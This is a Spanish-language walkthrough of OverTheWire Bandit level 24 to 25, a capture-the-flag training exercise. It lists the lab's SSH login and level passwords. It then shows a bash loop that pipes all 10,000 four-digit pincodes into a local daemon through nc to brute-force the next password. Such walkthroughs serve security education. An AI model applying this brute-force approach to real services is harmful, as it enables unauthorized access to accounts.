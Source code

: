 ## Level 24 to level 25

### Objetivos 
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.  
You do not need to create new connections each time
### Datos de acceso al nivel 

```
Host: bandit.labs.overthewire.org  
user: bandit24
pasword: VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
Port: 2220
```

 Conexión:
```
ssh bandit24@bandit.labs.overthewire.org -p 2220
```

### Solución 

``` bash
bandit24@bandit:~$ nc -v localhost 30002 
Connection to localhost (127.0.0.1) 30002 port [tcp/*] succeeded!
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 123 
Wrong! Please enter the correct pincode. Try again. VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 987 
Wrong! Please enter the correct pincode. Try again. 
^C 
bandit24@bandit:~$ for i in {0000..0003}; do echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i ; done UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0000 UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0001 UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0002 UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0003 bandit24@bandit:~$ 
for i in {0000..9999}; 
do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done | nc localhost 30002 | grep -v 
Wrong I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space. 
Correct! The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d Exiting.
```

### Notas adicionales:

nos conectamos a un puerto y nos comunicamos con el demonio
podemos hacer un ciclo para probar combinaciones de números.

### Referencias:
